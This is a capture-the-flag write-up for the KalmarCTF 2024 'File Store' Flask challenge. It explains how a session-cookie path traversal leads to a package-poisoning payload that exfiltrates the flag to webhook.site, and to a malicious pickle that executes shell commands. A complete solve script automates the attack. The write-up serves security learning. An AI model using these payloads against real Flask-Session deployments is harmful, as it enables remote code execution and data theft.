


# KalmarCTF 2024

by *Hack Sleep Deploy Repeat* ([KalmarCTF](https://kalmarc.tf/teams/260), [CTFtime](https://ctftime.org/team/284495))

## web

### File Store (59 Solves)

#### Prompt

> Upload your files on the Kalmar File Store and share them with your friends.
>
> Note: For this challenge, you will not be sharing it by anybody else. Thus, you need to start your own instance.
>
> [https://filestore.chal-kalmarc.tf](https://filestore.chal-kalmarc.tf/)
>
>   
> <./file-store.zip>



#### Reconnaissance

Upon visiting the provided URL and spinning up an instance, we are presented with a web interface that allows the upload of files to a File Store web application, which is subsequently stored in a directory specific to the session ID.



#### Challenge Source

##### app.py (with our comments)

```python
from flask import Flask, request, render_template, redirect, session
from flask_session import Session # flask_session module
import os

SESSION_TYPE = 'filesystem'       # Session data is stored in files
MAX_CONTENT_LENGTH = 1024 * 1024  # Max 1M file upload size

app = Flask(__name__)
app.config.from_object(__name__)
Session(app)

@app.route('/', methods=['GET', 'POST'])
def index():
    path = f'static/uploads/{session.sid}' # Path uses session.sid
    if request.method == 'POST':
        f = request.files['file']
        if '..' in f.filename:      # Filename cannot contain '..'
            return "bad", 400
        os.makedirs(path, exist_ok=True)
        f.save(path + '/' + f.filename)
        if not session.get('files'):
            session['files'] = []
        session['files'].append(f.filename) # session['files'] contains a list of filenames
        return redirect('/')
    return render_template('index.html', path=path, files=session.get('files', []))

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

##### Dockerfile

```Dockerfile
FROM python:3.11-slim

RUN python3 -m pip install flask flask-session gunicorn

RUN useradd ctf

COPY flag.txt /flag.txt

WORKDIR /app
COPY app.py .
COPY templates/ templates/
COPY static/style.css static/

RUN mkdir -p static/uploads flask_session
RUN chmod 777 static/uploads flask_session

USER ctf

CMD gunicorn --bind :5000 app:app
```

#### Where can we upload files?

Its appears the the intended upload path is `/static/uploads/sessionid`, but can we manipulate this?

The dockerfile `chmod 777`'s both the `static/uploads` and `flask_session` directories, allowing any user to read, write and execute files in these directories, we will return to the significance of the `flask_session` directory later.

We have control of the filename, but it cannot contain `'..'` so there is no ../ directory traversal there.

What about the path variable? If we can change `session.sid` then we can manipulate the path.

`session.sid` turns out to just be the value given in the session cookie. (see "Taking a peek at flask_session source on GitHub" for confirmation)

> e.g. Cookie: session=../../flask_session
>
> path = "static/uploads/../../flask_session" which resolves to "/flask_session"

#### Our unintended solution for the local instance (16/03/24)

##### Package namespace poisoning

We have a module being imported called `flask_session` and a directory (we have permission to write to) called `flask_session`, this allows the opportunity for package namespace poisoning, however this module is only imported at the start of the python script, so we would need to upload a file and then reboot the worker somehow?

According to <https://docs.gunicorn.org/en/stable/settings.html> the worker has a default timeout of 30 seconds, if it hangs for 30 seconds the worker will be restarted, so if we can hang the web app for 30 seconds we should be able to execute our code when flask_session is imported on the worker restart.

> ###### `timeout`
>
> **Default:** `30`
>
> Workers silent for more than this many seconds are killed and restarted.

###### What is package namespace poisoning

Package namespace poisoning is a technique where an attacker manipulates the namespace of a package or module. By injecting malicious content into the package or module's namespace, attackers can execute arbitrary code.

In the context of this challenge, package namespace poisoning involves manipulating the `flask_session` module to execute arbitrary code on the server by placing an `___init__.py` file in the `./flask_session` directory, which is then executed on import, this is the case as python first looks in the current directory when resolving package namespaces.

###### The Payload

```python
# ./flask_session/__init__.py

# from flask_session import *

# Write flag file to a path we can access on the site incase request fails
import os
os.system("cat /flag.txt > /app/static/uploads/flag.txt")

# Send flag file as a GET request to webhook if worker never recovers
import http.client
host = "webhook.site"
conn = http.client.HTTPSConnection(host)

with open("/flag.txt") as f:
    flag = str(f.read())[:-1]
    conn.request("GET", "/6aa6e780-08a6-4d73-8c89-0a5f371faa43/?flag="+flag)
    response = conn.getresponse()
    print(response.status, response.reason)

#Self destructs after execution to aid worker recovery
os.system("rm /app/flask_session/__init__.py")
```

We can hang the gunicorn worker with a slow upload, but we cannot upload files larger than 1M (set by `MAX_CONTENT_LENGTH`) so a very large file isn't an option, but we can upload via curl at whatever speed we want, so that gunicorn restarts the worker after spending 30 seconds handling our request.

###### solve-unintended.sh

```sh
#!/bin/bash

# run with ./solve-unintended.sh http://localhost:5000
#__init__.py payload should also be located in current directory
url=$1
echo $url

# Upload payload to /flask_session/__init__.py
curl -X POST $url \
     -H "Cookie: session=../../flask_session" \
     -F "file=@__init__.py;filename=__init__.py" \

# Generate a 1M file
truncate -s 1M nullbytes

# Upload 1M nullbytes file very slowly
curl -X POST $url \
     --limit-rate 1B \
-H 'Content-Type: multipart/form-data; boundary=---------------------------83051994911902789612622995941' \
 --data-binary $'-----------------------------83051994911902789612622995941\r\nContent-Disposition: form-data; name="file"; filename="nullbytes"\r\nContent-Type: application/octet-stream\r\n\r\n-----------------------------83051994911902789612622995941--\r\n' -v

echo "If it worked app should have crashed by now"

# Get the flag after payload execution
curl "$url/static/uploads/flag.txt"
```

This works locally but fails on the remote instance. 😱 

###### We made a ticket in the CTF discord (late into the night)

> **HestenettetDK — 17/03/2024 03:01**
>
> Best help I can give is that the challenge has solves, so :TryHarder:
>
> **Myldero — 17/03/2024 03:18**
>
> It should be noted that on remote, to get the individual instances to work, the challenge is put behind nginx. This may affect this solution. If you want a setup as similar as remote, you might need to put an nginx server in front

**Theory:** The NGINX instance buffers our slow curl upload of the nullbytes file before proxying it to the application, so the worker never hangs. 😥

#### Sticking at the unintended solution (17/03/24)

After sleeping on the issue we woke up with the thoughts, what if we mess with the session file or upload a ton of files so that a GET request would timeout just parsing filenames from `session['files']`?

We can't be bothered to upload so many files and the challenge instance only lives for 10 mins, but can we manipulate the value stored in `session["files"]`, let try locally.

##### Taking a peek at flask_session source on GitHub:

**TLDR; flask_session source:** It calls pickle.load on the session file (except the first 4 bytes as this is a timestamp), and the session file name is just an md5 of 'session:{session.sid}' so we have a predictable filename. 🍾 

###### Extracts from flask-session & cachelib source

```python
# https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/base.py#L332
 def open_session(self, app: Flask, request: Request) -> ServerSideSession:
        # Get the session ID from the cookie
        # SESSION_COOKIE_NAME = "session" by default
        sid = request.cookies.get(app.config["SESSION_COOKIE_NAME"])
		# ...
		# Retrieve the session data from the database
            # Returns Defaults.SESSION_KEY_PREFIX("session:") + sid
        store_id = self._get_store_id(sid)
        saved_session_data = self._retrieve_session_data(store_id)
		

# https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/filesystem/filesystem.py#L89
from cachelib.file import FileSystemCache
	# ...
 self.cache = FileSystemCache(
            cache_dir=cache_dir, threshold=threshold, mode=mode
        )
		# ...
def _retrieve_session_data(self, store_id: str) -> Optional[dict]:
        # Get the saved session (item) from the database
        return self.cache.get(store_id)


# https://github.com/pallets-eco/cachelib/blob/main/src/cachelib/file.py#L203
def _get_filename(self, key: str) -> str:
        if isinstance(key, str):
            bkey = key.encode("utf-8")  # XXX unicode review
            bkey_hash = self._hash_method(bkey).hexdigest()
              # hash_method is md5 by default
        # ...
        return os.path.join(self._path, bkey_hash)
            # /flask_session/{md5hash of "session:sid"}

def get(self, key: str) -> _t.Any:
        filename = self._get_filename(key)
            # /flask_session/{md5hash of "session:sid"}
        try:
            # Opens session file
            with self._safe_stream_open(filename, "rb") as f:	
                # Reads the first 4 bytes as a timestamp
                pickle_time = struct.unpack("I", f.read(4))[0]		
                if pickle_time == 0 or pickle_time >= time():
                    return self.serializer.load(f)
                    # serializer = cachelib.serializers.FileSystemSerializer()


# https://github.com/pallets-eco/cachelib/blob/main/src/cachelib/serializers.py#L19C5-L34C24

def dump(
        self, value: int, f: _t.IO, protocol: int = pickle.HIGHEST_PROTOCOL
    ) -> None:
        try:
            pickle.dump(value, f, protocol)
			# FileSystemSerializer.dump() is just a pickle.dump (!)
		
    def load(self, f: _t.BinaryIO) -> _t.Any:
        try:
            data = pickle.load(f)
            # FileSystemSerializer.load() is just a pickle.load (!)
```

##### A bit too much time wasting

We then spend far too long modifying `session["files"]` before realizing modifying `session["files"]` to a long enough list results in a session file size (90-190M) over the file upload limit anyway... 🤷 

We could continue with the "Too many file upload 'manually'", but didn't go with this approach as we thought it could take longer than the 10 minute lifetime that the instance has.

Let's try it now for fun 😛 

##### You rolled 20 🎲 on your sanity check - After CTF ended

So it turns out running this upload script of an empty file 100000+ times take well over the 10 minute mark and 100000 entries is still not enough to hang the app.

I believe the success we saw when modifying the session\["files"\] directly required around 1000000 entries.

> ./upload_script.sh '<http://localhost:5000/>' 'your_session_cookie' 100000

```sh
#!/bin/bash

# Function to upload an empty file using curl with the provided format
upload_empty_file() {
    curl "$1" -X POST -H 'Content-Type: multipart/form-data; boundary=---------------------------93988107812353882894080128531' -H "Cookie: session=$2" --data-binary $'-----------------------------93988107812353882894080128531\r\nContent-Disposition: form-data; name="file"; filename="some_file"\r\nContent-Type: application/octet-stream\r\n\r\n-----------------------------93988107812353882894080128531--\r\n'
}

# Check for the correct number of arguments
if [ $# -ne 3 ]; then
    echo "Usage: $0 <URL> <Session Cookie> <Number of times>"
    exit 1
fi

# Extract arguments
url=$1
session_cookie=$2
num_times=$3

# Loop to upload the empty file 'num_times' times
for ((i=1; i<=$num_times; i++)); do
    echo "Uploading empty file attempt $i..."
    upload_empty_file "$url" "$session_cookie"
done

echo "Uploads complete."
```

#### Finally the intended solution (Which got us the actual flag)

Wait we just spend x hours playing with the pickled session file... Aren't pickles dangerous? 🤔 

Pickling is a process of serializing Python objects into a byte stream, often used for data storage or transmission. However, unpickling untrusted data can lead to code execution vulnerabilities, commonly known as pickle deserialization attacks.

See more: <https://blog.nelhage.com/2011/03/exploiting-pickle/>

```python
# tainted_pickle.py
import struct
import pickle
import random

filename = "md5 of session id"

class RCE:
        def __reduce__(self):
            import os
            cmd = ('cat /flag.txt > /app/static/uploads/flag.txt')
            return os.system, (cmd,)

with open(filename, "wb") as f:
            rce = RCE()
            f.seek(4) # Leave the first 4 bytes unmodified
            session_value = rce
            pickle.dump(session_value, f)
```

Uploading this bad boy to `/flask_session/md5_of_session_id` presents us the flag at `{instance_url}/app/static/uploads/flag.txt` 🎊 

#### Solution as a single script?

The File Store challenge underscores the importance of thorough understanding of various web application vulnerabilities. By exploring different avenues (reading 3rd party sources) and exploiting vulnerabilities such as package namespace poisoning and pickle deserialization, we cracked this insecure flask web application wide open.

##### solve.py

```python
import requests
import hashlib
import pickle

def upload_file(url, filename, content, session_cookie=None):
    cookies = None
    if session_cookie:
        cookies = {'session': session_cookie}
    files = {'file': (filename, content)}
    response = requests.post(url, files=files, cookies=cookies)
    return response


def generate_payload():
    class RCE:
        def __reduce__(self):
            import os
            cmd = ('cat /flag.txt > /app/static/uploads/flag.txt')
            return os.system, (cmd,)

    rce = RCE()
    payload = b"\x00\x00\x00\x00" + pickle.dumps(rce)
    return payload

def submit_payload(url, session_id):
    filename = hashlib.md5(("session:" + session_id).encode()).hexdigest()
    payload = generate_payload()
    response = upload_file(url, filename, payload, '../../flask_session/')
    return response

def execute_payload(url, session_id):
    response = requests.get(url + "/", cookies={'session': session_id})
    return response.status_code

def get_flag(url, session_id):
    response = requests.get(url + "/static/uploads/flag.txt")
    return response.text

if __name__ == "__main__":
    url = input("Enter the instance URL: ")
    if url == "":
         url = "http://localhost:5000"
    first_upload = upload_file(url,'empty_file', b'')
    session_id = first_upload.cookies.get('session')
    print("First upload:", first_upload.status_code)
    print("Session ID:", session_id)
    payload_upload = submit_payload(url, session_id)
    print("Payload upload:", payload_upload.status_code)
    print("Payload execute:", execute_payload(url, session_id))
    flag = get_flag(url, session_id)
    print("Flag:", flag)
```

